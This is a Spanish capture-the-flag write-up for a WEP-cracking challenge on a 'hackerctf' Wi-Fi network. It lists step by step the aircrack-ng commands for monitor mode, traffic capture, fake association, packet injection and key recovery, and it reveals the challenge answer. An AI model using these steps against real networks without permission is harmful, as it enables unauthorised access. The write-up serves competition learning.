 ### Hey buddy, where's my WiFi? - 60 Points
#### Crack the WiFi key (WEP) of "hackerctf" network and write the key in plain ascii here

##### Category: Cracking Wi-Fi 
##### Solves: 10 

Este reto era el principal para poder acceder a los otros que se hacían en local, ya que se necesitaba acceder a dicha red Wi-Fi para poder visualizar las otras máquinas existentes en la red.

Puesto que el tipo de cifrado de esta red era WEP, era trivial poder obtener la contraseña de acceso debido a las vulnerabilidades que existen en dicho protocolo. Para ello se utilizó la suite “aircrack-ng” para capturar tráfico en la red y posteriormente inyectar nuevos paquetes para agilizar el proceso y obtener distintos IVs más rápidamente.

Resumidamente, el proceso fue:

1. Establecer la tarjeta de red Wi-Fi en modo monitor:

	  <code>airmon-ng start wlan0</code> 
    
    Esto nos genera la interfaz “wlan0mon” en modo monitor.

2. Capturar tráfico de la red deseada en “trafico_capturado” para su posterior crackeo:

	  <code>airodump-ng --essid “hackerctf” -w trafico_capturado wlan0mon</code>

3. Mientras se capturaba el tráfico, en una terminal nueva nos asociamos con el punto de acceso para poder inyectar tráfico posteriormente:
	
    <code>aireplay-ng -1 0 -e hackerctf -a <MAC_del_AP> -h <MAC_de_nuestra_tarjeta> wlan0mon </code>

4. Tras realizar la asociación correctamente, procedimos a inyectar tráfico para generar nuevos IVs:

    <code>aireplay-ng -3 -b <MAC_del_AP> -h <MAC_de_nuestra_tarjeta> wlan0mon</code>

5. Paralelamente a los puntos 2 y 4, se iba probando de crackear la contraseña hasta que se consiguió un número adecuado de IVs y se obtuvo la contraseña utilizada **“AHMED”**:
	  
    <code>aircrack-ng -z -b <MAC_del_AP>  trafico_capturado.cap</code>
